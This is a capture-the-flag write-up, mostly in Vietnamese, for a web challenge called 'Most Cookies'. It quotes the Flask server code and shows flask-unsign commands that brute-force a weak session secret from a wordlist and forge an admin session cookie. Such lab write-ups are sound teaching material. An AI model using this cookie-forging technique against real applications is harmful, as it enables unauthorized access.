Most Cookies
===
**Category:** Web

**Author:** MADSTACKS
### Description
- Alright, enough of using my own encryption. Flask session cookies should be plenty secure!
- Source: `server.py`

### Overview
- Site ở challange này giống như challange `Cookies`.
- Kiểm tra cookie có name là `session` thì thấy một chuỗi khá giống jwt vì vậy mang chuỗi đó đi giải mã nó thì nhận được `very_auth` bằng `blank`
- Thay đổi value của `session` bằng bất kì giá trị nào thì chúng ta không nhận được bất kì gì mới hoặc lỗi nào nào.

### Solution
- Đọc code từ file `server.py` của author cung cấp.
```py
cookie_names = ["snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap", "shortbread", "peanut butter", "whoopie pie", "sugar", "molasses", "kiss", "biscotti", "butter", "spritz", "snowball", "drop", "thumbprint", "pinwheel", "wafer", "macaroon", "fortune", "crinkle", "icebox", "gingerbread", "tassie", "lebkuchen", "macaron", "black and white", "white chocolate macadamia"]
app.secret_key = random.choice(cookie_names)
```
- Ở đoạn code có thể thấy được cookie_name là một mảng gồm nhiều giá trị khác nhau. Secret_key của jwt là được radom trong mảng đó.
- Đọc kĩ code thì ta thấy được một path là `/display` và là hàm flag() ở dưới đây
```py
@app.route("/display", methods=["GET"])
def flag():
	if session.get("very_auth"):
		check = session["very_auth"]
		if check == "admin":
			resp = make_response(render_template("flag.html", value=flag_value, title=title))
			return resp
		flash("That is a cookie! Not very special though...", "success")
		return render_template("not-flag.html", title=title, cookie_name=session["very_auth"])
	else:
		resp = make_response(redirect("/"))
		session["very_auth"] = "blank"
		return resp
```
- Phân tích đoạn code này thì chúng ta thấy nó lưu `session["very_auth"]` vô biến check và kiểm tra nó có phải là `admin` thì sẽ render ra file `flag.html`.
- Từ đoạn code trên ta suy ra cần thay đổi giá trị của `session["very_auth"]` thành admin thì chúng ta có flag. 
- Để làm điều đó thì chúng ta phải tìm ra secret của jwt ban đầu, mà secret của jwt ban đầu là random trong mảng `cookie_names` như chúng ta phân tích ở đầu.
- Vì vậy ở đây chúng ta chỉ cần lưu nhưng giá trị có trong mảng đó vào 1 file và brute secret có jwt ban đầu bằng tool `flask-unsign` theo wordlist chúng ta tạo thì có secret và sau đó thay đổi `very_auth` thành admin và encode lại và gửi lên.

##### Payload
- Mình lưu các giá trị vào file `word.txt`
```
flask-unsign --unsign --cookie "eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9.YF3FlA.6aduKYEKdWwTMuk0P_ziCREu5pQ" --wordlist=word.txt
```
- Ta nhận được key sau đó encode lại.
```
flask-unsign --sign --cookie "{'very_auth': 'admin'}" --secret 'butter'
```
- Cuối cùng thay cookie bằng giá trị nhận được f5 lại và nhận flag :)
